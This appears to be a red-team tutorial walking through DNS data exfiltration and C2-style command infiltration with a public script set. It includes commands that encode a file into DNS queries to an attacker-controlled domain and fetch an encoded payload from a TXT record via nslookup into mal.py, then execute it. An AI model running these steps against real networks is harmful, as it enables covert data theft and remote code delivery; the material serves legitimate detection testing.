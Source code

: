# DNS Exfil/Infil/Tunneling

**Description**
This falls more under Red Team/Purple Team activities to determine if your company is vulnerable to these types of attacks. DNS is commonly allowed in most organizations and attackers abuse this fact to use it in a malicious manner
## DNS Exfil
1. To start, grab the scripts found here:  https://github.com/kleosdc/dns-exfil-infil 
2. CD into the directory then do: pip3 install -r requirements.txt

In this directory you will see a file called securecorp.txt  https://github.com/kleosdc/dns-exfil-infil/blob/main/securecorp.txt
This will be the file we want to exfil out. Next you would need to register a domain, so that the DNS can be used. For me I created one with GoogleDomains, let's say its called wingnut.com. 

First let's run this command from the script in that directory:
```
python3 packety.py
```
1. This will first ask for a name of a file, in this case it will be the securecorp.txt one. 
2. Next it will ask for a domain, here I put wingnut.com. What the script will do is Base58 encode it then Base64 encode it. This is so it can fit in the domain name portion of the DNS request we will send. 
3. It will ask you if you want to start, and you can hit enter. (If you want to monitor the traffic to see what the requests look like, you can use something like tshark. I made an empty file called secret-credit-cards.pcap, did a chmod 666 on it then ran tshark -i eth0 -w secret-credit-cards.pcap)
4. After you hit enter it will take a minute or so and show a progress. Once it has completed, you can review the traffic you caught in tshark if you used it to monitor the traffic.


A little background on what is going to happen with these scripts: The code starts off by reading from the text file. The text file's content will first be Base64 encoded and then Base58 encoded. This leaves us with a long encoded string. The string is then split into 20 character long sections where each section will have 3 'dummy' characters added to it for further obfuscation. One character will be prepended to the encoded string and two characters will be appended. For example, a section of the encoded data might look like this: '6gfghhjywsas3rg4hda3'. After the extra characters are added it will end up being 'x6gfghhjywsas3rg4hda3yu'.
Once everything is done, then we need to decode it and fortunately he has a script for that as well. Back in the terminal where you ran the packety.py script type:
```
python3 packetyGrabber.py
```
1. This will ask for a file name, you put in the pcap filename. 
2. Next it will ask you for a filename to save it as, we will call it goodies.txt
3. lastly it will ask you for the domain you used, which in our case was wingnut.com

The script will then Base58 Decode it, then Base64 Decode it. You will now have the goodies.txt file to look at and it should contain all the content that was in the securecorp.txt file. You have successfully exfiltrated the data using DNS


## Data Infiltration
We want to simulate a C2-like activity of sending an encoded command to run on a victim machine. The scenario here would be that the attacker has compromised a victim machine, and has a domain/dns that has encoded commands they want to be sent to this machine without being caught as normal C2 traffic would. 
First you want to create a domain, I would recommend using Google Domains to register a new domain. For this example, we will use wingnut.com. We are still in the directory of the github project we used in the above example as well. In this example our "malicious" command will be:

```
import os; print(os.uname()[2])
```
Log into your Google Domains and manage the DNS for wingnut.com. Make a new Custom Record of type TXT, and give it a name of badstuff. Next give it a value of 
YeeTbunLbACdXq193g6VHXRuDQ9Y1upaAzA3UkpCr8yBBE68JEXU32wxNE44
This is a Base58/Base64 encoded version of that "malicious" command. Save it then to test it bring up command prompt and type:

```
nslookup -type=txt badstuff.wingnut.com
```
You should see that long encoded value. So on the victim machine in the directory of the github we have been using, do this command:

```
nslookup -type=txt badstuff.wingnut.com | grep Ye | cut -d \" -f2 > mal.py
```
This should pull that string value and put it in a file called mal.py. Next we run the script:

```
python3 packetySimple.py 
```
1. First it asks for the filename
2. Put in mal.py and hit enter

This will do the proper decode, and now you should be able to run

```
python3 mal.py
```
and it should run that OS command





